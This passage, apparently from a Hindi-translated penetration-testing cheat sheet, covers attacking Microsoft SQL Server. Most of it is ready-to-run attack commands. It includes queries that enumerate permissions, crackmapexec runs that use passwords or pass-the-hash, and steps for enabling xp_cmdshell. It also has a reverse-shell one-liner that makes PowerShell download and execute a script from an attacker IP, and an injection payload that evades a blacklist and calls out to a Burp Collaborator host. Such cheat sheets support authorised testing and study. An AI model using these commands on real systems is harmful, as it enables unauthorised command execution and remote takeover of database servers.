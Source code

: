 ```sql
# Show all possible permissions in MSSQL
SELECT * FROM sys.fn_builtin_permissions(DEFAULT);
# Get all my permissions over securable type SERVER
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
# Get all my permissions over a database
USE <database>
SELECT * FROM fn_my_permissions(NULL, 'DATABASE');
# Get members of the role "sysadmin"
Use master
EXEC sp_helpsrvrolemember 'sysadmin';
# Get if the current user is sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin');
# Get users that can run xp_cmdshell
Use master
EXEC sp_helprotect 'xp_cmdshell'
```
## Tricks

### OS कमांड चलाना

{% hint style="danger" %}
ध्यान दें कि कमांड चलाने के लिए केवल **`xp_cmdshell`** **सक्रिय** होना ही आवश्यक नहीं है, बल्कि **`xp_cmdshell` स्टोर की गई प्रक्रिया पर EXECUTE अनुमति भी होनी चाहिए**। आप यह जान सकते हैं कि कौन (sysadmins को छोड़कर) **`xp_cmdshell`** का उपयोग कर सकता है:
```sql
Use master
EXEC sp_helprotect 'xp_cmdshell'
```
{% endhint %}
```bash
# Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'

# Check if xp_cmdshell is enabled
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';

# This turns on advanced options and is needed to configure xp_cmdshell
sp_configure 'show advanced options', '1'
RECONFIGURE
#This enables xp_cmdshell
sp_configure 'xp_cmdshell', '1'
RECONFIGURE

#One liner
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

# Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
# Get Rev shell
EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'

# Bypass blackisted "EXEC xp_cmdshell"
'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
```
### NetNTLM हैश चुराना / रिले हमला
